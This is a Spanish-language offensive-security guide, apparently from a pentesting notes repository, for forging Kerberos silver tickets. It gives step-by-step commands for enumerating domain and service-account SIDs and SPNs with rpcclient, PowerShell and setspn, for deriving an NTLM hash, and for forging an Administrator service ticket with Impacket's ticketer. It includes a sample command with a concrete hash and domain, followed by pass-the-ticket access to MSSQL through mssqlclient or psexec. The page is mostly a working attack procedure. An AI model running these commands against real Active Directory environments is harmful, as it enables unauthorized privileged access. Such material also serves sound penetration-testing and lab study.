 # Ataque Silver Ticket

Un ataque de *silver ticket* consiste en forjar un ticket de servicio Kerberos para obtener acceso no autorizado a un servicio específico en un servidor. A diferencia de un *golden ticket*, que permite acceso a cualquier recurso del dominio, el *silver ticket* se enfoca en un servicio concreto (por ejemplo, MSSQL) y puede usarse para hacerse pasar por un administrador u otra cuenta privilegiada en ese servicio.

## Requisitos

Para realizar un ataque de *silver ticket*, necesitas lo siguiente:

- **Hash NTLM de la cuenta de servicio**: El hash de la cuenta asociada al servicio objetivo (por ejemplo, la cuenta de servicio de MSSQL).
- **SID del dominio**: El identificador de seguridad (SID) del dominio de Active Directory.
- **SID de la cuenta de servicio**: El SID de la cuenta de servicio.
- **Nombre del servicio**: El nombre del servicio principal de Kerberos (SPN) del servicio objetivo (por ejemplo, MSSQLSvc).
- **Nombre del dominio**: El nombre de dominio completo (FQDN) de Active Directory.
- **Nombre del servidor**: El FQDN del servidor que aloja el servicio.

### Comandos para Obtener la Información Requerida (Sin Permisos de Administrador)

1. **Obtener el hash NTLM de la cuenta de servicio**:
   - Sin permisos de administrador, puedes intentar obtener el hash NTLM de la cuenta de servicio mediante técnicas como:
     - **Kerberoasting**: [articulo acá](./kerberoasting.md)
     - Si conocemos la contraseña en texto plano podemos generar el hash NTLM: [versión web](https://codebeautify.org/ntlm-hash-generator)
       ```bash
       echo -n "<CONTRASEÑA>" | iconv -t UTF16LE | openssl dgst -md4
       ```
2. **Obtener el SID del dominio**:
   - Usa `ldapsearch` o herramientas de enumeración como `rpcclient` con credenciales de usuario estándar.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_DOMINIO>
     ```
     - El SID del dominio tiene el formato `S-1-5-21-<números_específicos_del_dominio>`.
     - Alternativamente, con PowerShell (si tienes acceso):
       ```powershell
       [System.Security.Principal.WindowsIdentity]::GetCurrent().User.AccountDomainSid
       ```

3. **Obtener el SID de la cuenta de servicio**:
   - Usa `rpcclient` para enumerar el SID de la cuenta de servicio.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_CUENTA_SERVICIO>
     ```
     - El SID de la cuenta de servicio es el SID del dominio más un identificador relativo (RID), por ejemplo, `S-1-5-21-<números_específicos_del_dominio>-<RID>`.
     - Alternativamente, con PowerShell:
       ```powershell
       Get-ADUser -Identity <NOMBRE_CUENTA_SERVICIO> -Server <DC_FQDN> | Select-Object SID
       ```

4. **Identificar el nombre del servicio**:
   - Enumera los SPN del servicio objetivo con `setspn` o consultas LDAP.
     ```bash
     setspn -T <DOMINIO> -Q */*
     ```
     - Busca el SPN, por ejemplo, `MSSQLSvc/<SERVIDOR_FQDN>:<PUERTO>` para MSSQL.
     - Con PowerShell:
       ```powershell
       Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -like "*<SERVICIO>*" }
       ```

5. **Nombre del dominio**:
   - Es el FQDN del dominio, por ejemplo, `example.com`. Esto suele obtenerse durante la enumeración inicial.

6. **Nombre del servidor**:
   - El FQDN del servidor que aloja el servicio, por ejemplo, `sqlserver.example.com`. Se obtiene del SPN o mediante enumeración de red.

## Forjar el Silver Ticket con Impacket

1. **Crear el Silver Ticket**:
   - Usa `ticketer.py` de Impacket para forjar el ticket Kerberos.
     ```bash
     python3 ticketer.py -nthash <NTLM_HASH> -domain-sid <SID_DOMINIO> -domain <NOMBRE_DOMINIO> -spn <NOMBRE_SERVICIO> -user-id <RID_CUENTA_SERVICIO> <USUARIO_OBJETIVO>
     ```
     - Parámetros:
       - `-nthash`: El hash NTLM de la cuenta de servicio.
       - `-domain-sid`: El SID del dominio (sin el RID).
       - `-domain`: El FQDN del dominio (por ejemplo, `example.com`).
       - `-spn`: El nombre del servicio principal (por ejemplo, `MSSQLSvc/sqlserver.example.com:1433`).
       - `-user-id`: El RID de la cuenta de servicio (la última parte del SID de la cuenta).
       - `<USUARIO_OBJETIVO>`: El usuario a impersonar (por ejemplo, `Administrator`).
     - Ejemplo:
       ```bash
       impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya-industries.com -user-id 500 Administrator
       ```
    - El user id 500 es el RID de la cuenta de administrador.
     - Esto genera un archivo `.ccache` con el ticket forjado.

2. **Configurar la variable de entorno para el ticket Kerberos**:
   - Exporta el ticket para usarlo con otras herramientas de Impacket.
     ```bash
     export KRB5CCNAME=$(pwd)/<nombre_ticket>.ccache
     ```

3. **Realizar Pass-the-Ticket (PTT)**:
   - Usa una herramienta de Impacket como `mssqlclient.py`, `psexec.py` o `smbexec.py` para acceder al servicio objetivo con el ticket forjado.
     - Ejemplo para MSSQL:
       ```bash
       python3 mssqlclient.py -k <DOMINIO>/<USUARIO_OBJETIVO>@<SERVIDOR_FQDN> -dc-ip <DC_IP>
       ```
       - `-k`: Indica autenticación Kerberos usando el ticket en `KRB5CCNAME`.
       - Ejemplo:
         ```bash
         python3 mssqlclient.py -k example/Administrator@sqlserver.example.com -dc-ip 192.168.1.10
         ```
       - Esto conecta al servicio MSSQL como el usuario impersonado (por ejemplo, `Administrator`).

## Archivo /etc/krb5user.conf o /etc/krb5.conf
- Este archivo es necesario para que el ticket funcione correctamente.

```bash
[libdefaults]
        default_realm = EXAMPLE.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        EXAMPLE.COM = {
                kdc = dc01.example.com
        }

[domain_realm]
        .example.com = EXAMPLE.COM
``` 


## Notas
- Asegúrate de que el reloj del sistema esté sincronizado con el controlador de dominio para evitar problemas con los tickets Kerberos.
    - Comando: `sudo ntpdate -u <IP_DC>` 
- El ticket forjado solo es válido para el servicio y servidor especificados.
- Prueba el ticket con herramientas como `mssqlclient.py` para MSSQL o con otras herramientas de Impacket para diferentes servicios (por ejemplo, `psexec.py` para CIFS).
- Si el ticket falla, verifica la precisión del SPN, el hash y los SIDs.
- Sin permisos de administrador, el éxito del ataque depende de obtener el hash NTLM mediante técnicas como *Kerberoasting*.